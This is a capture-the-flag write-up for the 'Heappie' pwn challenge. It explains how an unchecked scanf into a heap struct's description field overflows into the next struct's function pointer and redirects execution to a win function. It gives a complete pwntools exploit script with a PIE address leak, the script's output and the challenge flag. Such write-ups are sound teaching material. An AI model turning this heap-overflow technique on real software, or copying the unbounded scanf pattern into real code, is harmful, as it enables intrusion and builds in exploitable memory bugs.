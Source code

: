 # Heappie

### Category

Pwn

### Description

Heappie is a simple application that allows you to save and play your favorite songs. Find a way to exploit it and read the flag.

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write Up

The objective is to display the flag by calling the `win` function:

```c
void win() {
    char flag[64];
    FILE* f = fopen("flag.txt", "r");
    if (f == NULL) {
        puts("Flag file is missing!");
        exit(1);
    }

    fgets(flag, sizeof(flag), f);
    printf("Flag: %s", flag);
    fclose(f);
}
```

To do that, we will overwrite the `play` function pointer of the `Music` struct:

```c
typedef struct Music {
    void (*play)(struct Music*);

    char title[32];
    char artist[32];
    char description[128];
} Music;
```

Once the function pointer is overwritten, playing a song will call the `win` function and display the flag.

The overflow is possible due to this `scanf` call, which does not check the size of the user input:

```c
printf("Enter music description: ");
scanf("%s", music->description);
```

So we will fill the 128 bytes of the `description` buffer and then overwrite the `play` attribute of the next `Music` struct that is added. Of course, the next `Music` struct should be created without a `play` function to avoid overwriting our `win` function pointer.

> `description = b"A" * 128 + p64(elf.sym["win"])`

Here is my solve script:

```python
#!/usr/bin/env python3
from pwn import ELF, remote, p64, context


elf = context.binary = ELF('heappie/heappie', checksec=False)

PLAY_SYMBOLS = {
    b"music 1": elf.sym["play_1"],
    b"music 2": elf.sym["play_2"],
    b"music 3": elf.sym["play_3"]
}

# io = process(elf.path)
io = remote("localhost", 9000)

def add_music(title, artist, description, add_music):
    io.sendlineafter(b'>> ', b'1')
    io.sendlineafter(b'music? (y/n): ', add_music)
    io.sendlineafter(b'title: ', title)
    io.sendlineafter(b'artist: ', artist)
    io.sendlineafter(b'description: ', description)

def play_music(idx, leak_play_symbol=False):
    io.sendlineafter(b'>> ', b'2')
    io.sendlineafter(b'index: ', str(idx).encode())

    if leak_play_symbol:
        data = io.recvline()
        for key, value in PLAY_SYMBOLS.items():
            if key in data:
                return value

def delete_music(idx):
    io.sendlineafter(b'>> ', b'3')
    io.sendlineafter(b'index: ', str(idx).encode())

def show_playlist(leak_play_address=False):
    io.sendlineafter(b'>> ', b'4')

    if leak_play_address:
        io.recvuntil(b"(song: ")
        return int(io.recvline().strip()[:-1], 16)

# ----[ EXPLOIT ]-----
# context.log_level = 'debug'
add_music(b"AAAA", b"BBBB", b"CCCC", b"y")
play_addr = show_playlist(leak_play_address=True)
play_sym = play_music(0, leak_play_symbol=True)
elf.address = play_addr - play_sym

print(f"Play address: {hex(play_addr)}")
print(f"Play symbol: {hex(play_sym)}")
print(f"ELF base address: {hex(elf.address)}")
print(f"Win function address: {hex(elf.sym['win'])}")

input("Press Enter to continue...")

description = b"O" * 128 + p64(elf.sym["win"])
add_music(b"MMMM", b"NNNN", description, b"n")
add_music(b"XXXX", b"YYYY", b"ZZZZ", b"n")

play_music(2)
print(io.recvline())
io.close()
```

Execution of the script:

```bash
$ python3 xpl.py
[+] Opening connection to localhost on port 9000: Done
Play address: 0x5e22729a12b3
Play symbol: 0x12b3
ELF base address: 0x5e22729a0000
Win function address: 0x5e22729a11f9
Press Enter to continue...
b'Flag: Hero{F4K3_FL4G}\n'
[*] Closed connection to localhost port 9000
```

### Flag

Hero{b4s1c_H3AP_0verfL0w!47280319}